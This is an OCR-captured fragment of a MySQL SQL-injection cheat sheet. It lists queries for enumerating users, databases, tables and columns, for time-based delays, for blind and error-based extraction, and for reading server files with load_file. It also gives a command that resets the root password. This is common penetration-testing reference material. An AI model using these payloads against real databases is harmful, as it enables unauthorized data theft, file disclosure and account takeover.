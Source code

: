   -   SELECT current_role()

- ##### List User

  -   SELECT user FROM mysql.user

- ##### Current Database

  -   SELECT database()

- ##### List Database

  -   SELECT schema_name FROM information_schema.schemata

- ##### List Tables

  -   SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != \'mysql\' AND table_schema != \'information_schema\'

- ##### List Columns

  -   SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != \'mysql\' AND table_schema != \'information_schema\'

- ##### **If**

  - SELECT if(1=1,\'foo\',\'bar\'); return 'foo'

- **Ascii**

  - SELECT char(0x41)
  - SELECT ascii(\'A\')

  - SELECT 0x414243 =\> return ABC

- **Delay**

  - sleep(1)
  - SELECT BENCHMARK(1000000,MD5(\'A\'))

- ##### Read File

  -   select @@datadir

  -   select load_file(\'databasename/tablename.MYD\')

- ##### Blind

  -   ascii(substring(str,pos,length)) & 32 = 1

- ##### Error Based

  -   select count(\*),(floor(rand(0)\*2))x from information_schema.tables group by x;

  -   select count(\*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1), floor(rand(0)\*2))

- ##### Change Password

  -   mysql -uroot -e \"use mysql;UPDATE user SET password=PASSWORD(\'newpassword\') WHERE user=\'root\';FLUSH PRIVILEGES;\"

##### 报错注入常见函数

